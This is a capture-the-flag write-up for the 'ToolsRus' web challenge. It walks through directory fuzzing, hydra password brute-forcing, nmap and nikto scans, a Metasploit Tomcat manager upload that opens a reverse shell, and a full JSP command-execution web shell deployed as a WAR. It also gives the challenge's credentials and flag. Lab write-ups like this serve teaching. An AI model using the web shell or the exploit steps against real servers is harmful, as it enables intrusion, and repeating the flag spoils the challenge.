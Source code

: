 # ToolsRus

## Challenge Information
- **Challenge Name**: ToolsRus
- **Category**: Web Exploitation
- **Difficulty Level**: Easy

## Initial Enumeration

1. From the given tools to be used, start using the first one. i.e. dirbuster. But I used `ffuf` instead, due to its its simplicity and efficiency:
```bash
ffuf -u http://<IP_ADDRESS>/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 40 -e .php,.txt,.bak,.html
```
This gives the very first directory `guidelines`.

2. Open this directory in the browser `http://<IP_ADDRESS>/guidelines`. This will give some content in which the name is given as `bob`.

3. When we did the directory traversal, we found another directory `/protected`. This is the answer for this.

4. When we visit this directory, it asks for authentication. The username is obviously `bob`. Now we have to find the password. So lets use hydra now:
```bash
hydra -l bob -P /usr/share/wordlists/rockyou.txt -t 1 -f <IP_ADDRESS> http-get /protected/
```
This will give us the password `bubbles`.

5. When we open this directory with the correct credentials, the web page shows that the file has been moved to another port. So now lets scan the ipaddress with nmap:
```bash
nmap -sV -p 1234 <IP_ADDRESS>
```
This will give the currently open port `1234`.

6. Visit the port: `http://<IP_ADDRESS>:1234/`. It will take to a new webpage where the information of the server can be found: `Apache Tomcat/7.0.88`.

7. Now as istructed, lets run the command:
```bash
nikto -h http://<IP_ADDRESS>:1234/manager/html -id bob:bubbles
```
for the specified directory with the known credentials. This will give some data in which the information of some files is also given. Count the total number of files: `5`.

8. If we run a simple nmap command:
```bash
nmap <IP_ADDRESS>
```
It will give some open ports. There will be a port `80` for http. Scan this port:
```bash
nmap -sV -p 80 <IP_ADDRESS>
```
This will give the version of the server `Apache/2.4.18`.

9. The version of the `Apache-Coyote` can be seen in the start of the result when we ran the nikto command: `1.1`.

## Exploitation Methods

### Method 1 - Using Metasploit
-> open the metasploit console using the command `msfconsole`.
-> run the command `search type:exploit tomcat` to search for the exploits of tomcat.
-> using the command `use exploit/multi/http/tomcat_mgr_upload`, select the exploit `exploit/multi/http/tomcat_mgr_upload` since we are dealing with the uploading of a script to get the reverse shell.
-> use command `show options` to see the options that we need to fill up before running the exploit. now we have to run the following command to add the required options:
1. set target 0
2. set httppassword bubbles
3. set httpusername bob
4. set rhost <IP_ADDRESS>
5. set rport 1234
6. set lhost <YOUR_THM_VPN_IP>
7. set lport 4444

10. After all these, again run the options command and verify all the options are set properly. now use command `run` to run the exploit. After the successful execution, type `shell` to get the shell. Now run `whoami` to check the user. It will give us `root`.

11. Now run the command `ls`, which will many directories in which one directory with the name of `root` is also present. Navigate into that `cd root`. Again see what files are present in there `ls`. Here you will see the file `flag.txt`. Read the contents of this file `cat flag.txt` and we will get the flag `ff1fc4a81affcc7688cf89ae7dc6e0e1`.

### Method 2 - Manual Exploitation
If you face any problem in running the exploit in metasploit, we can just upload the shell directly into the webpage. If we simply do some research that `how can we get reverse shell in Apache Tomcat/7.0.88?`, we will come to know that the directory `/manager` can help us here. So just open this directory `http://<IP_ADDRESS>/manager`. This will ask for the credentials. Simply use the credentials that we got before `bob, bubbles`. This will open a server page for the manager. Here we can see an option for uploading `war` files. Create a war file using the following steps:
- create a shell.jsp file with the following contents:
```bash
<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    if (cmd != null) {
        String s = null;
        Process p = Runtime.getRuntime().exec(cmd);
        BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
        while ((s = sI.readLine()) != null) {
            out.println(s);
        }
    }
%>
```

- run the commands:
```bash
mkdir -p mywebapp/WEB-INF
cp shell.jsp mywebapp/
jar -cvf shell.war -C mywebapp/ .
```
10. Now you have a shell.war file. Deploy it on the webpage, which will give message `ok` in the message field. Now simply use the url to get the user of the server `http://<IP_ADDRESS>/shell/shell.jsp?cmd=whoami`. This will give you the answer `root`.

11. Now run the url `http://<IP_ADDRESS>/shell/shell.jsp?cmd=ls`, which will many directories in which one directory with the name of `root` is also present. Navigate into that `http://<IP_ADDRESS>/shell/shell.jsp?cmd=cd root`. Again see what files are present in there `http://<IP_ADDRESS>/shell/shell.jsp?cmd=ls`. Here you will see the file `flag.txt`. Read the contents of this file `http://<IP_ADDRESS>/shell/shell.jsp?cmd=cat flag.txt` and we will get the flag `ff1fc4a81affcc7688cf89ae7dc6e0e1`.
